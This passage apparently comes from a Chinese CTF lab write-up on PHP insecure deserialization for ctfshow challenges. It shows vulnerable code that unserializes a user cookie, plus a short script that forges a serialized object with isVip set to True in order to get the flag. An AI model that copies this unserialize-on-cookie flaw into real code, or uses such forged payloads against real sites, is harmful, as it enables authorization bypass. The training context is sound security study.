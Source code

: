 ```php
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

生成序列化内容

```php
<?php
class ctfShowUser{
    public $isVip=True;    
}
$user = urlencode(serialize(new ctfShowUser()));
echo $user;

?>
```

GET传参username和password内容，Cookie传递url编码后`public $isVip=True;`并序列化的参数

![image-20230728163802216](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728163802216.png)

### [web256]

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
```